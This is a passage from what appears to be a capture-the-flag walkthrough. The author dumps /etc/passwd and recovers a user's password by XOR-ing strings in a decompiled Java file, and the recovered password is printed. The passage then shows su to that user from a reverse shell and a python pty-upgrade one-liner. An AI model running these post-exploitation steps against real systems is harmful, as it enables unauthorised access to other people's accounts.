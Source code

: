    nobody:x:99:99:Nobody:/:/sbin/nologin
    avahi-autoipd:x:170:170:Avahi IPv4LL Stack:/var/lib/avahi-autoipd:/sbin/nologin
    dbus:x:81:81:System message bus:/:/sbin/nologin
    polkitd:x:999:998:User for polkitd:/:/sbin/nologin
    tss:x:59:59:Account used by the trousers package to sandbox the tcsd daemon:/dev/null:/sbin/nologin
    postfix:x:89:89::/var/spool/postfix:/sbin/nologin
    sshd:x:74:74:Privilege-separated SSH:/var/empty/sshd:/sbin/nologin
    nginx:x:998:997:Nginx web server:/var/lib/nginx:/sbin/nologin
    apache:x:48:48:Apache:/usr/share/httpd:/sbin/nologin
    robin:x:1000:1000::/home/robin:/bin/bash
    bryan:x:1001:1001::/home/bryan:/bin/bash
    sean:x:1002:1002::/home/sean:/bin/bash

We can see in the `/etc/passwd` file that there is 3 users: robin, bryan and
sean. Moreover in the `CommandActivity.java` file we have seen that there is a
mean to execute ssh command (also the port is not open) using the user robin.
The password used for this command is a simply a XOR between the
`integryity_check` base64 encoded string at the beginning of the file and the
string define in the validate method. We can reuse the code from there and find
back the password: 40373df4b7a1f413af61cf7fd06d03a565a51898

With our reverse shell a simple `su robin` and the password above give us a shell
as the robin user:

    ::text
    id
    uid=1000(robin) gid=1000(robin) groups=1000(robin)

For the next part of the challenge we may need a real pty shell, Once more
[pentest monkey](http://pentestmonkey.net/blog/post-exploitation-without-a-tty)
will help us:

    python -c 'import pty; pty.spawn("/bin/bash")'

We go in the user directory (`cd`) and we see a file `debug.gpg`:

    ::text
    cat debug.gpg
    -----BEGIN PGP SIGNED MESSAGE-----
    Hash: SHA1
    
    Dude,
    
    I know you are trying to debug this stupid dice thing, so I figured the below
    will be useful?
    
    [...]
    __libc_start_main(0x555555554878, 1, 0x7fffffffe508, 0x5555555548e0 <unfinished ...>
    getenv("LD_PRELOAD")                                                                                          = nil
    rand()                                                                                                        = 1804289383
    __printf_chk(1, 0x555555554978, 0x6b8b4567, 0x7ffff7dd40d4)                                                   = 22
    __cxa_finalize(0x555555754e00, 0, 0, 1)                                                                       = 0x7ffff7dd6290
    +++ exited (status 0) +++Dice said: 1804289383
    [...]
    